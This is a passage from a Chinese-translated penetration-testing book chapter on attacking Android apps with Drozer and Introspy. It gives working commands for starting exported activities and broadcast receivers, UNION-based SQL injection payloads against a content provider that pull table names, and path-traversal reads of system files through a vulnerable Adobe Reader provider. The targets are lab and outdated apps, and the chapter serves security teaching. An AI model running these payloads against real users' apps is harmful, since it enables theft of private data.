# 八、客户端攻击——动态分析技术

在上一章中，我们从静态分析的角度介绍了与 Android 应用相关的客户端攻击，这些攻击在 Android 应用中常见。在本章中，我们将从**动态应用安全测试**（**DAST**）透视图中介绍相同的客户端攻击，并将看到一些自动化工具。如前一章所述，要成功执行本章所述的大多数攻击，攻击者需要说服受害者在其手机中安装恶意应用。此外，如果攻击者具有对设备的物理访问权限，也可能成功利用这些应用。

以下是我们将在本章中讨论的一些主要主题：

*   攻击可调试应用
*   使用 Xposed 框架进行挂钩
*   使用 Frida 的动态仪器
*   使用 Introspy 的自动评估
*   Drozer 自动评估
*   攻击应用组件
*   注射攻击
*   文件包含攻击
*   基于日志的漏洞

# 使用 Drozer 自动评估 Android 应用

我们已经在[第 1 章](21.html#aid-3STPM1 "Chapter 1. Setting Up the Lab")中看到了设置 Drozer 工具的说明。*建立实验室*。本节介绍 Drozer 中可用于加速渗透测试过程的一些有用功能。当您有时间限制时，自动化工具总是很有用的。在撰写本书时，Drozer 是笔式测试 Android 应用的最佳工具之一。为了更好地理解此工具，我们将讨论与[第 7 章](27.html#aid-54VHA2 "Chapter 7. Client-Side Attacks – Static Analysis Techniques")*客户端攻击–静态分析技术*中*攻击应用组件*一节中讨论的相同的攻击。

### 注

请注意，下一节中讨论的攻击已在上一节中使用手动技术进行了详细讨论。下一节将演示使用 Drozer 进行的相同攻击，但不会深入讨论背景中发生的技术细节。我们的想法是展示如何使用 Drozer 工具执行相同的攻击。

在我们深入研究攻击之前，让我们看看一些有用的 Drozer 命令。

## 列出所有模块

```
list 

```

前面的命令显示了当前会话中可以执行的所有 Drozer 模块的列表。

```
dz> list
app.activity.forintent                   Find activities that can handle the given intent 
app.activity.info                        Gets information about exported activities. 
app.activity.start                       Start an Activity 
app.broadcast.info                       Get information about broadcast receivers 
app.broadcast.send                       Send broadcast using an intent 
app.package.attacksurface                Get attack surface of package 
app.package.backup                       Lists packages that use the backup API (returns true on FLAG_ALLOW_BACKUP) 
app.package.debuggable                   Find debuggable packages 
app.package.info                         Get information about installed packages 
app.package.launchintent                 Get launch intent of package 
app.package.list                         List Packages 
app.package.manifest                     Get AndroidManifest.xml of package 
app.package.native                       Find Native libraries embedded in the application. 
.
.
.
. 
scanner.provider.finduris                Search for content providers that can be queried from our context. 
scanner.provider.injection               Test content providers for SQL injection vulnerabilities. 
scanner.provider.sqltables               Find tables accessible through SQL injection vulnerabilities. 
scanner.provider.traversal               Test content providers for basic directory traversal vulnerabilities. 
shell.exec                               Execute a single Linux command. 
shell.send                               Send an ASH shell to a remote listener. 
shell.start                              Enter into an interactive Linux shell. 
tools.file.download                      Download a File 
tools.file.md5sum                        Get md5 Checksum of file 
tools.file.size                          Get size of file 
tools.file.upload                        Upload a File 
tools.setup.busybox                      Install Busybox. 
tools.setup.minimalsu                    Prepare 'minimal-su' binary installation on the device. 

dz>

```

前面的摘录显示了 Drozer 可用的模块列表。

## 正在检索包信息

如果要列出模拟器/设备上安装的所有软件包，可以运行以下命令：

```
run app.package.list

```

运行上述命令将列出所有已安装的软件包，如下所示：

```
dz> run app.package.list
com.android.soundrecorder (Sound Recorder)
com.android.sdksetup (com.android.sdksetup)
com.androidpentesting.hackingandroidvulnapp1 (HackingAndroidVulnApp1)
com.android.launcher (Launcher)
com.android.defcontainer (Package Access Helper)
com.android.smoketest (com.android.smoketest)
com.android.quicksearchbox (Search)
com.android.contacts (Contacts)
com.android.inputmethod.latin (Android Keyboard (AOSP))
com.android.phone (Phone)
com.android.calculator2 (Calculator)
com.adobe.reader (Adobe Reader)
com.android.emulator.connectivity.test (Connectivity Test)
com.androidpentesting.couch (Couch)
com.android.providers.calendar (Calendar Storage)
com.example.srini0x00.music (Music)
com.androidpentesting.pwndroid (PwnDroid)
com.android.inputdevices (Input Devices)
com.android.customlocale2 (Custom Locale)
com.android.calendar (Calendar)
com.android.browser (Browser)
com.android.music (Music)
com.android.providers.downloads (Download Manager)
dz>

```

## 查找目标应用的包名

当需要识别设备中安装的特定应用的软件包名称时，可以使用`--filter`选项搜索特定关键字。在我们的例子中，让我们按如下方式查找我们的 Sony notes 应用：

```
dz> run app.package.list --filter [string to be searched]

```

运行上一个命令将显示匹配的应用，如下所示：

```
dz> run app.package.list --filter notes
com.sonyericsson.notes (Notes)
dz>

```

也可以使用`-f`选项代替`--filter`，如下所示：

```
dz> run app.package.list -f notes
com.sonyericsson.notes (Notes)
dz>

```

## 获取包裹信息

以下 Drozer 命令可用于获取有关目标应用包的一些信息：

```
dz> run app.package.info -a [package name]

```

运行上一个命令将生成有关应用的信息，如以下摘录所示：

```
dz> run app.package.info -a com.sonyericsson.notes
Package: com.sonyericsson.notes
 Application Label: Notes
 Process Name: com.sonyericsson.notes
 Version: 1.C.6
 Data Directory: /data/data/com.sonyericsson.notes
 APK Path: /data/app/com.sonyericsson.notes-1.apk
 UID: 10072
 GID: [3003, 1028, 1015]
 Shared Libraries: null
 Shared User ID: null
 Uses Permissions:
 - android.permission.GET_ACCOUNTS
 - android.permission.AUTHENTICATE_ACCOUNTS
 - android.permission.MANAGE_ACCOUNTS
 - android.permission.INTERNET
 - android.permission.WRITE_EXTERNAL_STORAGE
 - android.permission.RECORD_AUDIO
 - android.permission.WAKE_LOCK
 - android.permission.READ_SYNC_SETTINGS
 - android.permission.WRITE_SYNC_SETTINGS
 - android.permission.READ_EXTERNAL_STORAGE
 Defines Permissions:
 - None

dz>

```

正如我们在前面的摘录中所看到的，该命令显示了有关应用的各种详细信息，包括包名、应用版本、设备上应用的数据目录、APK 路径以及此应用所需的权限。

## 转储 AndroidManifes.xml 文件

通常情况下，我们需要`AndroidManifest.xml`文件来探索有关应用的更多细节。虽然 Drozer 可以使用不同的选项从`AndroidManifest.xml`文件中找到我们需要的所有内容，但有`AndroidManifest.xml`文件在身边还是不错的。以下命令从目标应用转储完整的`AndroidManifest.xml`文件：

```
dz> run app.package.manifest [package name]

```

运行前面的命令将显示以下输出（输出被截断）：

```
dz> run app.package.manifest com.sonyericsson.notes
<manifest versionCode="1"
 versionName="1.C.6"
 package="com.sonyericsson.notes">
 <uses-sdk minSdkVersion="14"
 targetSdkVersion="15">
 </uses-sdk>
 <uses-permission name="android.permission.GET_ACCOUNTS">
 </uses-permission>
 <uses-permission name="android.permission.AUTHENTICATE_ACCOUNTS">
 </uses-permission>
 <uses-permission name="android.permission.MANAGE_ACCOUNTS">
 </uses-permission>
 <uses-permission name="android.permission.INTERNET">
 </uses-permission>
 <uses-permission name="android.permission.WRITE_EXTERNAL_STORAGE">
 </uses-permission>
 <uses-permission name="android.permission.RECORD_AUDIO">
 </uses-permission>
 <uses-permission name="android.permission.WAKE_LOCK">
 </uses-permission>
 <uses-permission name="android.permission.READ_SYNC_SETTINGS">
 </uses-permission>
 <uses-permission name="android.permission.WRITE_SYNC_SETTINGS">
 </uses-permission>
 <application theme="@2131427330"
 label="@2131296263"
 icon="@2130837504">
 <provider name=".NoteProvider"
 authorities="com.sonyericsson.notes.provider.Note">
 </provider>
.
.
.
.
<receiver name=".NotesReceiver">
 <intent-filter>
 <action name="com.sonyericsson.vendor.backuprestore.intent.ACTION_RESTORE_APP_COMPLETE">
 </action>
 </intent-filter>
 </receiver>
 </application>
</manifest>

dz> 

```

## 寻找攻击面：

我们可以使用以下命令找出应用的攻击面。此选项基本上显示导出的应用组件列表。

```
dz> run app.package.attacksurface [package name]

```

运行上述命令将显示导出组件的列表，如下所示：

```
dz> run app.package.attacksurface com.sonyericsson.notes
Attack Surface:
 4 activities exported
 2 broadcast receivers exported
 1 content providers exported
 2 services exported
dz>

```

到目前为止，我们已经讨论了一些基本的 Drozer 命令，这些命令在您的评估中可能会派上用场。

现在让我们看看如何使用 Drozer 攻击应用。如前所述，我们将使用相同的目标应用和攻击，但我们将使用 Drozer 执行攻击。

## 对活动的攻击

首先，让我们确定前面使用的 GoatDroid 应用的攻击面。

```
dz> run app.package.attacksurface org.owasp.goatdroid.fourgoats
Attack Surface:
 4 activities exported
 1 broadcast receivers exported
 0 content providers exported
 1 services exported
 is debuggable
dz>

```

之前的输出显示有四个活动被导出。我们可以使用以下 Drozer 命令查看应用中的所有导出活动：

```
dz> run app.activity.info -a [package name]

```

运行上一个命令，将显示以下输出：

```
dz> run app.activity.info -a org.owasp.goatdroid.fourgoats
Package: org.owasp.goatdroid.fourgoats
 org.owasp.goatdroid.fourgoats.activities.Main
 org.owasp.goatdroid.fourgoats.activities.ViewCheckin
 org.owasp.goatdroid.fourgoats.activities.ViewProfile
 org.owasp.goatdroid.fourgoats.activities.SocialAPIAuthentication

dz>

```

正如你所看到的，我们已经得到了所有的出口活动。以下活动是我们之前使用 adb 测试的活动：

```
org.owasp.goatdroid.fourgoats.activities.ViewProfile
```

如果要标识所有活动，包括未导出的活动，可以使用前面带有`-u`标志的命令。具体如下所示：

```
dz> run app.activity.info -a org.owasp.goatdroid.fourgoats -u
Package: org.owasp.goatdroid.fourgoats
 Exported Activities:
 org.owasp.goatdroid.fourgoats.activities.Main
 org.owasp.goatdroid.fourgoats.activities.ViewCheckin
 org.owasp.goatdroid.fourgoats.activities.ViewProfile
 org.owasp.goatdroid.fourgoats.activities.SocialAPIAuthentication
 Hidden Activities:
 org.owasp.goatdroid.fourgoats.activities.Login
 org.owasp.goatdroid.fourgoats.activities.Register
 org.owasp.goatdroid.fourgoats.activities.Home
 org.owasp.goatdroid.fourgoats.fragments.DoCheckin
 org.owasp.goatdroid.fourgoats.activities.Checkins
 org.owasp.goatdroid.fourgoats.activities.Friends
 org.owasp.goatdroid.fourgoats.fragments.HistoryFragment
 org.owasp.goatdroid.fourgoats.activities.History
 org.owasp.goatdroid.fourgoats.activities.Rewards
 org.owasp.goatdroid.fourgoats.activities.AddVenue
 org.owasp.goatdroid.fourgoats.fragments.MyFriends
 org.owasp.goatdroid.fourgoats.fragments.SearchForFriends
 org.owasp.goatdroid.fourgoats.fragments.PendingFriendRequests
 org.owasp.goatdroid.fourgoats.activities.ViewFriendRequest
 org.owasp.goatdroid.fourgoats.fragments.MyRewards
 org.owasp.goatdroid.fourgoats.fragments.AvailableRewards
 org.owasp.goatdroid.fourgoats.activities.Preferences
 org.owasp.goatdroid.fourgoats.activities.About
 org.owasp.goatdroid.fourgoats.activities.SendSMS
 org.owasp.goatdroid.fourgoats.activities.DoComment
 org.owasp.goatdroid.fourgoats.activities.UserHistory
 org.owasp.goatdroid.fourgoats.activities.DestinationInfo
 org.owasp.goatdroid.fourgoats.activities.AdminHome
 org.owasp.goatdroid.fourgoats.activities.AdminOptions
 org.owasp.goatdroid.fourgoats.fragments.ResetUserPasswords
 org.owasp.goatdroid.fourgoats.fragments.DeleteUsers
 org.owasp.goatdroid.fourgoats.activities.DoAdminPasswordReset
 org.owasp.goatdroid.fourgoats.activities.DoAdminDeleteUser
 org.owasp.goatdroid.fourgoats.activities.GenericWebViewActivity

dz>

```

现在，让我们使用 Drozer 启动私有活动，但不输入有效凭据，因为它已导出。

以下是我们启动 GoatDroid 应用时的活动：


运行以下命令将启动活动：

```
dz> run app.activity.start --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.activities.ViewProfile
dz>

```

如果在运行上述命令后注意到 emulator，则应看到启动了以下活动：


## 对服务的攻击

与活动类似，我们可以使用 Drozer 调用服务。以下命令列出了从目标应用导出的所有服务：

```
dz> run app.service.info -a [package name]

```

在 GoatDroid 应用上运行上述命令将导致以下结果：

```
dz> run app.service.info -a org.owasp.goatdroid.fourgoats
Package: org.owasp.goatdroid.fourgoats
 org.owasp.goatdroid.fourgoats.services.LocationService
 Permission: null

dz>

```

正如您在前面的摘录中所看到的，我们已经获得了导出的服务。

正如我们在活动中看到的，我们还可以使用`–u`标志列出未导出的服务：

```
dz> run app.service.info -a org.owasp.goatdroid.fourgoats -u
Package: org.owasp.goatdroid.fourgoats
 Exported Services:
 org.owasp.goatdroid.fourgoats.services.LocationService
 Permission: null
 Hidden Services:

dz>

```

正如您可以在前面的摘录中看到的，此应用没有任何未导出的服务。

现在，我们可以使用以下 Drozer 命令启动服务：

```
dz> run app.service.start --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService

```

## 广播接收机

类似于活动和服务，我们可以使用 Drozer 调用广播接收器。以下命令列出了从目标应用导出的所有广播接收器：

```
dz> run app.broadcast.info -a [package name]

```

在 GoatDroid 应用上运行上一个命令将导致以下结果：

```
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats 
Package: org.owasp.goatdroid.fourgoats
 Receiver: org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver

dz>

```

正如我们在前面的输出中所看到的，应用已经导出了一个广播接收器。

我们还可以列出未使用`–u`标志导出的广播接收机。具体情况如下：

```
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats -u
Package: org.owasp.goatdroid.fourgoats
 Exported Receivers:
 Receiver: org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
 Hidden Receivers:

dz>

```

正如您在前面的摘录中所看到的，此应用没有任何未导出的广播接收器。

现在，我们可以使用以下 Drozer 命令启动广播意图：

```
dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 5556 --extra string message CRACKED

```

前面的命令将触发广播接收器，类似于我们在前面的 adb 方法中看到的。如下图所示：


## 内容提供者泄漏和使用 Drozer 的 SQL 注入

本节展示了如何使用 Drozer 对内容提供商进行各种攻击。我们将使用之前显示的 Sony Notes 应用作为我们的目标。

我们可以使用如下所示的命令找到目标应用的包名：

```
dz> run app.package.list -f notes
com.sonyericsson.notes (Notes)
dz>

```

我们知道此应用中有一个导出内容提供商。但是，让我们用 Drozer 找出答案。以下命令可用于列出导出的零部件：

```
dz> run app.package.attacksurface com.sonyericsson.notes
Attack Surface:
 4 activities exported
 2 broadcast receivers exported
 1 content providers exported
 2 services exported
dz>

```

在这个阶段，当我们使用 adb 方法进行此操作时，我们使用`grep`命令来计算实际的内容提供者 URI。Drozer 通过自动化查找内容提供商 URI 的整个过程，使我们的生活更加轻松。这可以使用以下命令完成：

```
dz> run scanner.provider.finduris -a [package name]
dz> run scanner.provider.finduris -a com.sonyericsson.notes
Scanning com.sonyericsson.notes...
Able to Query    content://com.sonyericsson.notes.provider.Note/accounts/
Able to Query    content://com.sonyericsson.notes.provider.Note/accounts
Unable to Query  content://com.sonyericsson.notes.provider.Note
Able to Query    content://com.sonyericsson.notes.provider.Note/notes
Able to Query    content://com.sonyericsson.notes.provider.Note/notes/
Unable to Query  content://com.sonyericsson.notes.provider.Note/

Accessible content URIs:
 content://com.sonyericsson.notes.provider.Note/notes/
 content://com.sonyericsson.notes.provider.Note/accounts/
 content://com.sonyericsson.notes.provider.Note/accounts
 content://com.sonyericsson.notes.provider.Note/notes
dz>

```

正如您在前面的摘录中所看到的，我们有四个可访问的内容提供者 URI。

我们现在可以使用`app.provider.query`模块查询这些内容提供商，如下所示：

```
dz> run app.provider.query [content provider URI]

```

运行上述命令将产生以下输出：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/
| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |
| 1       | test note_2 | 1          |            |             | 0       | 1448466232545 | null     | No title | 
false
0  | 2   | 1448466232545 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz> 

```

正如我们可以看到的，我们能够从应用的提供者那里查询内容，没有任何错误。

或者，我们也可以使用以下命令以垂直格式显示结果：

```
dz> run app.provider.query [URI] --vertical

```

运行上一个命令将以如下格式显示结果：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --vertical
 isdirty  1
 body  test note_1
 account_id  1
 voice_path 
doodle_path 
 deleted  0
 modified  1448466224766
 sync_uid  null
 title  No title
 meta_info 
false
0
 _id  1
 created  1448466224766
 background  com.sonyericsson.notes:drawable/notes_background_grid_view_1
 usn  0

 isdirty  1
 body  test note_2
 account_id  1
 voice_path 
doodle_path 
 deleted  0
 modified  1448466232545
 sync_uid  null
 title  No title
 meta_info 
false
0
 _id  2
 created  1448466232545
 background  com.sonyericsson.notes:drawable/notes_background_grid_view_1
 usn  0

dz>

```

## 使用 Drozer 攻击 SQL 注入

让我们看看如何在内容提供商 URI 中发现 SQL 注入漏洞。我们可以使用`scanner.provider.injection`模块：

```
dz> run scanner.provider.injection -a [package name]

```

Scanner 是 Drozer 中的一个不错的模块，可以自动发现注入和路径遍历漏洞。我们将在本节后面讨论路径遍历攻击。

运行以下命令将告诉我们内容提供程序中是否存在任何注入漏洞：

```
dz> run scanner.provider.injection -a com.sonyericsson.notes
Scanning com.sonyericsson.notes...
Not Vulnerable:
 content://com.sonyericsson.notes.provider.Note
 content://com.sonyericsson.notes.provider.Note/

Injection in Projection:
 No vulnerabilities found.

Injection in Selection:
 content://com.sonyericsson.notes.provider.Note/notes/
 content://com.sonyericsson.notes.provider.Note/accounts/
 content://com.sonyericsson.notes.provider.Note/accounts
 content://com.sonyericsson.notes.provider.Note/notes
dz> 

```

正如我们在前面的摘录中所看到的，所有四个 URI 在选择中都有注入漏洞。

如前所述，确认 SQL 注入的传统方法是传递单个引号并中断查询。让我们在 selection 中传递一个引号（'），并查看响应。

这可以按如下所示进行：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "'"

unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (')
dz>

```

如果我们观察到前面的响应，那么单引号已经发送到查询，并且它会在中断的查询中抛出一个错误。

现在，让我们通过传递`id=1`来形成一个适当的查询：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1"
| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |
dz>

```

前面的查询已按预期执行，并返回与 id`1`关联的行。正如我们使用 adb 方法所做的一样，让我们用 UNION 编写一个新的`select`语句，如下所示：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | 5           | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz>

```

正如我们在前面的输出中所看到的，我们可以看到从 1 到 14 的数字。我们现在可以替换这些数字中的任何一个来从数据库中提取内容。

将列号`5`替换为`sqlite_version()`将打印数据库版本，如下所示：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | 3.7.11      | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz>

```

现在，使用 Drozer 获取表名就像将列号`5`替换为`tbl_name`一样简单。下面显示的是以下命令。请注意，我们正在查询**`sqlite_master`**获取表名：****

 ****```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path      | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | accounts         | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | 2           | 3          | 4          | android_metadata | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | 2           | 3          | 4          | notes            | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |                  | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz>

```

正如我们在前面的输出中所看到的，我们提取了以下表格：

*   `accounts`
*   `android_metadata`
*   `notes`****  ****## 内容提供商中的路径遍历攻击

内容提供者也可以实现为文件支持提供者。这意味着利用人员可以编写一个内容提供者，允许另一个应用访问其私有文件。当应用通过内容提供商访问这些文件时，如果没有对正在读取的文件进行适当的验证，它可能能够在易受攻击的应用的上下文中读取任意文件。这通常是通过遍历目录来完成的。

通过在扩展`ContentProvider`类的类中写入方法`public ParcelFileDescriptor openFile(Uri uri, String mode)`来实现文件支持的内容提供者。

有关如何在应用中实现此功能的详细教程，请参见：

[http://blog.evizija.si/android-contentprovider/](http://blog.evizija.si/android-contentprovider/) Drozer 有一个模块`scanner.provider.traversal`，用于扫描内容提供商以查找此类遍历漏洞。

本节展示了如何使用 Drozer 识别和利用 Android 应用中的路径遍历漏洞。我们将使用适用于 Android 的 Adobe Reader 应用。

与此应用相关的原始咨询信息发布在以下链接：

[http://blog.seguesec.com/2012/09/path-traversal-vulnerability-on-adobe-reader-android-application/](http://blog.seguesec.com/2012/09/path-traversal-vulnerability-on-adobe-reader-android-application/)

根据最初的建议，Adobe<=10.3.1 的所有版本都易受此攻击。

在本例中，我们使用的是具有包名`com.adobe.reader`的 Adobe 10.3.1。

使用 adb 安装应用，如下所示：

```
$ adb install Adobe_Reader_10.3.1.apk 
1453 KB/s (6165978 bytes in 4.143s)
 pkg: /data/local/tmp/Adobe_Reader_10.3.1.apk
Success
$

```

安装后，我们应在设备上看到 Adobe Reader 应用图标，如下所示：


使用以下命令，查找包名的方式与我们使用其他应用的方式类似：

```
dz> run app.package.list -f adobe
com.adobe.reader (Adobe Reader)
dz> 

```

让我们找出攻击面。

```
dz> run app.package.attacksurface com.adobe.reader
Attack Surface:
 1 activities exported
 0 broadcast receivers exported
 1 content providers exported
 0 services exported
dz>

```

有趣的是，有一个内容提供者被导出。下一步是找出内容提供者 URI。这可以使用`scanner.provider.finduris.`完成

```
dz> run scanner.provider.finduris -a com.adobe.reader
Scanning com.adobe.reader...
Unable to Query  content://com.adobe.reader.fileprovider/
Unable to Query  content://com.adobe.reader.fileprovider

No accessible content URIs found.
dz>

```

如果你注意到，Drozer 说没有找到可访问的内容 URI。这并不奇怪，因为它正试图从数据库中读取数据，而且它是一个基于文件的提供者。让我们看看应用中是否存在任何遍历漏洞。这可以使用以下命令完成：

```
dz> run scanner.provider.traversal -a com.adobe.reader

```

运行上述命令将导致以下结果：

```
dz> run scanner.provider.traversal -a com.adobe.reader
Scanning com.adobe.reader...
Not Vulnerable:
 No non-vulnerable URIs found.

Vulnerable Providers:
 content://com.adobe.reader.fileprovider/
 content://com.adobe.reader.fileprovider
dz> 

```

正如您在前面的摘录中所看到的，存在一个易受路径遍历攻击的内容提供程序 URI。此漏洞允许攻击者从设备读取任意文件，如下一节所述。

### 正在阅读/etc/hosts

主机文件包含由第一个文本字段中的 IP 地址和一个或多个主机名组成的文本行。在类 UNIX 机器中，`/etc/hosts`是此文件的位置。让我们看看攻击者如何使用易受攻击的应用读取此文件。

```
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../etc/hosts
127.0.0.1	      localhost

dz>

```

### 读取内核版本

`/proc/`版本文件提供了设备中使用的 Linux 内核版本的详细信息，并确认了用于构建该设备的 GCC 编译器的版本。让我们看看攻击者如何使用易受攻击的应用读取此文件。

```
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../proc/version
Linux version 3.4.0-gd853d22 (nnk@nnk.mtv.corp.google.com) (gcc version 4.6.x-google 20120106 (prerelease) (GCC) ) #1 PREEMPT Tue Jul 9 17:46:46 PDT 2013

dz>

```

上述命令中添加的编号`../`应通过试错法进行识别。如果您可以访问源代码，那么检查源代码是另一种选择。

## 利用可调试应用

Android 应用在其`AndroidManifest.xml`文件中有一个名为`android:debuggable`的标志。在应用利用阶段设置为`true`，并在应用导出分发后默认设置为`false`。此标志用于利用过程中的调试目的，在生产中不应设置为 true。如果利用人员将可调试标志的值显式设置为 true，则该标志将变得易受攻击。如果在其 VM 中运行的应用是可调试的，那么它会公开一个唯一的端口，我们可以使用一个名为**JDB**的小工具连接到该端口。这在 Dalvik 虚拟机中是可能的，它支持**JDWP**（简称**Java 调试线协议**。具有设备物理访问权限的攻击者可以通过公开的 UNIX 套接字连接到应用，并且可以在目标应用的上下文中运行任意代码。

本节介绍利用可调试应用的最简单方法。

以下命令列出了我们可以连接和调试的所有 PID：

```
adb jdwp

```

为了找出与目标应用关联的确切 PID，请确保在运行上一个命令时目标应用未运行。如下所示：


现在，启动应用并再次运行前面的命令。其思想是使应用进入活动状态，因为 pid 仅在应用处于活动状态时可见。启动应用后运行上述命令将显示一个额外的 pid，如下所示：


虽然清单中还有其他几个额外的端口，但我们可以使用**`ps`命令找到与目标应用关联的端口，如下所示：**

 **

正如您可以在前面的输出中看到的，pid`1062`与我们的目标应用相关联。我们还可以看到这个应用的包名。记下它，因为这在下一步中是必需的。

在我们了解如何使用 debugable 标志滥用应用之前，让我们先看看是否可以在没有 root 权限的情况下访问特定于应用的数据。


如您所见，当我们试图列出应用私有目录中的文件和文件夹时，我们遇到了一个**权限被拒绝**错误。

现在，让我们再次获取一个 shell 并使用`run-as`二进制文件，如下所示：



如果您注意到上述输出，我们可以看到易受攻击应用的私有内容。******  ****# Cydia 底物简介

Cydia Subscriber 是一种通过注入根设备上的应用进程来实现 Android 应用运行时挂钩和修改的工具。这以前被称为移动基板，最初是为 iOS 设备发布的。Cydia 衬底是大多数可用运行时操作工具的基础。我们可以利用使用 Cydia 衬底的第三方附加组件。这些被称为扩展。下一节展示了一个名为 Introspy 的工具，它是一个流行的 Cydia 底层扩展，用于 Android 应用的运行时监控和分析。Cydia 基板可从 Google Play 商店获得，您可以通过以下链接进行安装：

[https://play.google.com/store/apps/details?id=com.saurik.substrate](https://play.google.com/store/apps/details?id=com.saurik.substrate)


安装后，如果启动应用，Cydia Subscriber 的主屏幕将显示如下图所示。


点击**链接基板文件**按钮，您将看到以下活动：


在第一次安装 Cydia 基板时，将出现前面的消息，要求我们重新启动设备以开始使用它。

# 使用 Introspy 进行运行时监控和分析

我们在[第一章](21.html#aid-3STPM1 "Chapter 1. Setting Up the Lab")*建立实验室*中看到了如何建立 Introspy。本节讨论如何在 Android 应用的运行时监控和分析中使用 Introspy。Introspy 是基于 Cydia 基板的扩展，因此必须安装 Cydia 基板才能与 Introspy 一起工作。此扩展监视应用执行的每个操作，如数据存储调用、意图等。

以下是使用 Introspy 的步骤：

1.  在设备中启动 Introspy 应用。
2.  选择您的目标应用。
3.  运行并浏览目标应用。
4.  观察 adb 日志（或）生成 HTML 报告。

在钩住并分析目标应用之前，请检查目标应用的 databases 文件夹，以确保没有可用的 Introspy 数据库。

以下是我的`whatsapplock`申请的`databases`文件夹中的条目：



如上图所示，没有名为`introspy`的文件。

现在，在设备中启动 Introspy 应用并选择目标应用。在我的例子中，我选择了`whatsapplock`应用，如下图所示：



现在，运行 whatsappchatlock 应用并浏览整个应用以调用其所有功能。


Introspy 将监视此操作，并将所有被监视的调用保存在目标应用的`databases`文件夹中的数据库文件中。

现在，导航到 whatsappchatlock 应用的 databases 文件夹将显示一个名为`introspy.db`的新数据库，如下所示：



我们可以使用`introspy.db`文件进一步分析并生成报告。为此，我们需要将此文件复制到 sd 卡，以便稍后将其拉到本地计算机上。这可以使用以下命令完成：

```
cp introspy.db /mnt/sdcard

```

现在，使用`adb pull`命令将文件拉入本地机器，如下图：



在本地计算机上下载的 Introspy 目录中运行以下命令将为我们设置生成报告的环境。

```
python setup.py install

```

最后，运行以下命令生成报告：


